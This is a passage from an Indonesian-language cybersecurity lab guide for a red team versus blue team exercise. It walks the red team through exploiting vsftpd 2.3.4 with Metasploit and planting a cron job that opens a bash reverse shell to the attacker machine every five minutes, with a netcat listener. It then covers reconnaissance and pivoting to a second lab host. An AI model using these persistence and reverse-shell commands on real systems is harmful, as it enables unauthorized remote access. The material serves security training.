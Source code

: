           * Tabel yang menampilkan alert terbaru secara *real-time*.
5.  **Siapkan Prosedur Komunikasi:**
      * Siapkan sebuah file teks atau logbook digital (misalnya, `incident_log.txt`).
      * Tentukan format standar untuk mencatat setiap peristiwa penting: `[WAKTU] - [AKTIVITAS TERDETEKSI] - [ANALISIS AWAL] - [TINDAKAN YANG DIAMBIL]`. Ini akan menjadi log komunikasi Anda ke "Puskomando".

-----

-----

### **E. FASE II (MINGGU 11-12): EKSEKUSI SERANGAN DAN DETEKSI**

Ini adalah fase "pertempuran" utama. Tim Merah akan mengeksekusi rencana mereka, sementara Tim Biru harus mendeteksi dan menganalisis serangan secara *real-time*.

#### **Tugas Tim Merah (Red Team): Pelaksanaan Intrusi**

**Tujuan:** Mendapatkan akses ke target dan mencapai "bendera" (flags) yang telah ditentukan.

**Langkah-langkah Eksekusi (Contoh Alur):**

1.  **Akses Awal ke ECS (`.101`):**

      * Gunakan Metasploit untuk mengeksploitasi kerentanan `vsftpd 2.3.4` seperti pada modul sebelumnya.
      * Setelah mendapatkan *shell*, verifikasi akses `root`.
      * **PENCAPAIAN FLAG \#1:** Buat sebuah file di direktori root: `echo "REDTEAM_FLAG1_ECS_ROOT" > /flag1.txt`

2.  **Pasca-Eksploitasi di ECS:**

      * **Persistensi**: Buat sebuah *cron job* sederhana yang akan membuka koneksi *reverse shell* kembali ke mesin Kali Anda setiap 5 menit. Ini memastikan Anda bisa masuk kembali jika sesi awal terputus.
          * Di shell Metasploitable: `(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -i >& /dev/tcp/192.168.100.10/4444 0>&1") | crontab -`
          * Di terminal Kali, siapkan listener: `nc -lvnp 4444`
      * **Pengumpulan Informasi**: Jalankan perintah untuk mengumpulkan informasi tentang jaringan dari dalam: `netstat -antp`, `arp -a`.

3.  **Gerakan Lateral ke NAVCOM (`.100`):**

      * **Pivot**: Dari *shell* di ECS, coba lakukan Nmap scan terhadap NAVCOM. Ini mensimulasikan serangan dari "dalam" jaringan.
          * `nmap -sV 192.168.100.100`
      * **Eksploitasi (Skenario Web)**: Kita asumsikan (untuk tujuan latihan) NAVCOM memiliki aplikasi web internal yang rentan.
          * Gunakan Burp Suite dari Kali, tetapi konfigurasikan *shell* Anda di ECS untuk meneruskan lalu lintas. Ini adalah teknik *pivoting* yang canggih.
          * Targetkan aplikasi web di `https://192.168.100.100`. Cari kerentanan.
      * **PENCAPAIAN FLAG \#2:** Jika Anda berhasil mendapatkan akses (bahkan *low-privilege shell*) ke NAVCOM, buat file di direktori `/tmp`: `echo "REDTEAM_FLAG2_NAVCOM_ACCESS" > /tmp/flag2.txt`

#### **Tugas Tim Biru (Blue Team): Pemantauan dan Analisis Aktif**
